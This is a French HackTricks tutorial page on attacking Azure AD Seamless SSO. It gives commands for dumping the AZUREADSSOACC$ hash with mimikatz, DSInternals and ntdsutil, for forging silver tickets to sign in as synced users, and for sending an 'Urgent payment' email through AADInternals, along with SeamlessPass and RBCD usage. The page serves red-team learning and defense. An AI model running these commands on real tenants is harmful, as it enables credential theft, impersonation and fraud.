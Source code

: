 # Az - SSO Transparent

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Informations de base

[Dans la documentation :](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory SSO Transparent (Azure AD SSO Transparent) **connecte automatiquement les utilisateurs lorsqu'ils sont sur leurs appareils d'entreprise** connectés à votre réseau d'entreprise. Lorsqu'il est activé, **les utilisateurs n'ont pas besoin de taper leurs mots de passe pour se connecter à Azure AD**, et généralement, même de taper leurs noms d'utilisateur. Cette fonctionnalité offre à vos utilisateurs un accès facile à vos applications basées sur le cloud sans nécessiter de composants supplémentaires sur site.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Fondamentalement, Azure AD SSO Transparent **connecte les utilisateurs** lorsqu'ils sont **sur un PC joint à un domaine sur site**.

Il est pris en charge à la fois par [**PHS (Synchronisation de hachage de mot de passe)**](phs-password-hash-sync.md) et [**PTA (Authentification par passage)**](pta-pass-through-authentication.md).

Le SSO de bureau utilise **Kerberos** pour l'authentification. Lorsqu'il est configuré, Azure AD Connect crée un **compte d'ordinateur appelé AZUREADSSOACC`$`** dans l'AD sur site. Le mot de passe du compte `AZUREADSSOACC$` est **envoyé en texte clair à Azure AD** lors de la configuration.

Les **tickets Kerberos** sont **chiffrés** en utilisant le **NTHash (MD4)** du mot de passe et Azure AD utilise le mot de passe envoyé pour déchiffrer les tickets.

**Azure AD** expose un **point de terminaison** (https://autologon.microsoftazuread-sso.com) qui accepte les **tickets** Kerberos. Le navigateur de la machine jointe au domaine transmet les tickets à ce point de terminaison pour le SSO.

### Sur site -> cloud

Le **mot de passe** de l'utilisateur **`AZUREADSSOACC$` ne change jamais**. Par conséquent, un administrateur de domaine pourrait compromettre le **hachage de ce compte**, puis l'utiliser pour **créer des tickets argentés** pour se connecter à Azure avec **n'importe quel utilisateur sur site synchronisé** :
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Avec le hash, vous pouvez maintenant **générer des tickets argent** :
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Pour utiliser le ticket argent, les étapes suivantes doivent être exécutées :

1. **Initier le Navigateur :** Mozilla Firefox doit être lancé.
2. **Configurer le Navigateur :**
* Naviguez vers **`about:config`**.
* Définissez la préférence pour [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) aux [valeurs](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) spécifiées :
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Accéder à l'Application Web :**
* Visitez une application web qui est intégrée au domaine AAD de l'organisation. Un exemple courant est [Office 365](https://portal.office.com/).
4. **Processus d'Authentification :**
* À l'écran de connexion, le nom d'utilisateur doit être saisi, en laissant le champ du mot de passe vide.
* Pour continuer, appuyez sur TAB ou ENTER.

{% hint style="success" %}
Cela ne contourne pas MFA si activé
{% endhint %}

#### Option 2 sans dcsync - SeamlessPass

Il est également possible d'effectuer cette attaque **sans une attaque dcsync** pour être plus furtif comme [expliqué dans cet article de blog](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Pour cela, vous avez seulement besoin de l'un des éléments suivants :

* **Un TGT d'utilisateur compromis :** Même si vous n'en avez pas, mais que l'utilisateur a été compromis, vous pouvez en obtenir un en utilisant le truc de délégation de faux TGT implémenté dans de nombreux outils tels que [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) et [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket** : Si vous avez la clé KRBTGT, vous pouvez créer le TGT dont vous avez besoin pour l'utilisateur attaqué.
* **Un hash NTLM ou une clé AES d'un utilisateur compromis :** SeamlessPass communiquera avec le contrôleur de domaine avec ces informations pour générer le TGT.
* **Hash NTLM ou clé AES du compte AZUREADSSOACC$ :** Avec ces informations et l'Identifiant de Sécurité (SID) de l'utilisateur à attaquer, il est possible de créer un ticket de service et de s'authentifier avec le cloud (comme effectué dans la méthode précédente).

Enfin, avec le TGT, il est possible d'utiliser l'outil [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) avec :

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Des informations supplémentaires pour configurer Firefox afin de fonctionner avec SSO transparent peuvent être [**trouvées dans cet article de blog**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Création de tickets Kerberos pour les utilisateurs uniquement cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Si les administrateurs Active Directory ont accès à Azure AD Connect, ils peuvent **définir le SID pour tout utilisateur cloud**. De cette manière, des **tickets** Kerberos peuvent être **créés également pour les utilisateurs uniquement cloud**. La seule exigence est que le SID soit un [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) approprié.

{% hint style="danger" %}
Changer le SID des utilisateurs administrateurs uniquement cloud est maintenant **bloqué par Microsoft**.\
Pour plus d'infos, consultez [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### Sur site -> Cloud via Délégation Contraignante Basée sur les Ressources <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Quiconque peut gérer des comptes d'ordinateur (`AZUREADSSOACC$`) dans le conteneur ou l'OU où se trouve ce compte peut **configurer une délégation contrainte basée sur les ressources sur le compte et y accéder**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Références

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Je suis dans votre cloud, lisant les e-mails de tout le monde - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
